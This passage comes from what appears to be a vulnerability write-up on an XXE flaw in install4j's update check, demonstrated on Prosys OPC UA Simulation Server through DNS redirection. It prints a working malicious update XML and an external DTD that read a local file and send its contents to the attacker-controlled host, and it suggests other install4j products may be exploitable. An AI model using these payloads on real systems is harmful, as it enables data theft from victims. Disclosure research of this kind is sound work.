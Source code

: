 In the case of *Prosys OPC UA Simulation Server*, the update server is defined in the file `C:\Program Files\ProsysOPC\Prosys OPC UA Simulation Server\.install4j\i4jparams.conf` to be 
`<variable name="sys.updatesUrl" value="https://downloads.prosysopc.com/opcua/updates/SimulationServer/v5/updates.xml" />`. So the DNS entry on the Windows server will be modified such that the hostname `downloads.prosysopc.com` points to the IP address of the attacker machine .
If the Prosys OPC UA Simulation server now checks for updates automatically, a request to `https://downloads.prosysopc.com/opcua/updates/SimulationServer/v5/updates.xml` will be sent. Note that the **Prosys product is not vulnerable** to common ways of DNS hijacking
such that a fake TLS/SSL inspection component has to be introduced for this PoC to work. **Other products using install4j might indeed be exploitable** this way without any special pre-conditions. Pretty sure you can find one or two.

The following XML content will be delivered then by our attacker server:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "HTTP://downloads.prosysopc.com/XXE.dtd">
<data>&send;</data>
<updateDescriptor baseUrl="">
  <entry targetMediaFileId="1116" updatableVersionMin="" updatableVersionMax="" fileName="prosys-opc-ua-simulation-server-windows-x86-5.4.2-129.exe" newVersion="5.4.2-129" newMediaFileId="1116" fileSize="90175568" md5Sum="45b8dddf7e664d044a8441730d50a01b" sha256Sum="cb5e54b44b2b206be483cbf0d05d5acf91f23a59b9be407576828b81cf204ebf" bundledJre="windows-x86-17.0.5.tar.gz" archive="false" singleBundle="false">
    <comment language="en" />
  </entry>
<!-- ...SNIP... -->
</updateDescriptor>
```

The XXE payload can be found at the very beginning:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "HTTP://downloads.prosysopc.com/XXE.dtd">
<data>&send;</data>
```

This will fetch the `DTD` file remotely from the same update server with the following content:

```xml
<!ENTITY % file SYSTEM "file:///C:/Users/user/Desktop/secret.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'HTTP://downloads.prosysopc.com/%file;'>">
%all;
```

`secret.txt` is a PoC file created by me to show that e.g. file content could then be retrieved from the attacked server.
